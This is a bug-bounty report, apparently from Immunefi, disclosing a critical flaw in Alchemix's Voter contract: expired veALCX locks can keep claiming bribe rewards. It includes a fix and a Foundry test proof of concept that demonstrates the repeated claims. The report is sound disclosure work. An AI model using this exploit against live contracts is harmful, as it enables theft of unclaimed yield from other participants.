
# Expired locks can be used to claim rewards

Submitted on May 12th 2024 at 12:32:07 UTC by @infosec_us_team for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31082

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield

## Description
This report is so short because the bug is straightforward to explain and prove.

## Vulnerability Details

Expired locks can keep claiming rewards for any bribe.

## Recommended Fix
The fix requires checking that **block.timestamp** is larger than the lock's expiration date when claiming bribes using the `claimBribes(...)` function in the `Voter` smart contract.

The permanently fixed function is:
```
function claimBribes(address[] memory _bribes, address[][] memory _tokens, uint256 _tokenId) external {
    require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId));

    require(IVotingEscrow(veALCX).lockEnd(_tokenId) > block.timestamp, "token expired");

    for (uint256 i = 0; i < _bribes.length; i++) {
        IBribe(_bribes[i]).getRewardForOwner(_tokenId, _tokens[i]);
    }
}
```

## Impact

Stealing bribe rewards using expired tokens can lead to solvency issues.


## Proof of Concept

This proof of concept can be added to `src/test/Voting.t.sol`. It demonstrates how a user can create a lock for a min. of 1 epoch, and keep claiming rewards forever (even after expired).

```
    function testClaimingBribesWithExpiredLock() public {

        // User 1
        uint256 tokenId1 = createVeAlcx(holder, TOKEN_1, nextEpoch, false);
        
        address bribeAddress = voter.bribes(address(sushiGauge));
        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10000;
        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        // Step 1- Holder votes
        hevm.prank(holder);
        voter.vote(tokenId1, pools, weights, 0);

        console2.log("------------------------------------------------------------------------");
        console2.log("bal balance of holder before voting", IERC20(bal).balanceOf(holder));

        // Step 2- Start second epoch
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        bool expired =  veALCX.lockEnd(tokenId1) < block.timestamp;
        assertEq(expired, true, "token should be expired");

        // Step 3- Holder claims
        hevm.prank(holder);
        voter.claimBribes(bribes, tokens, tokenId1);
        
        // Step 4- Start third epoch
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        // Step 5- Holder claims
        hevm.prank(holder);
        voter.claimBribes(bribes, tokens, tokenId1);

        console2.log("------------------------------------------------------------------------");
        console2.log("bal balance of holder after voting", IERC20(bal).balanceOf(holder));
        
    }
```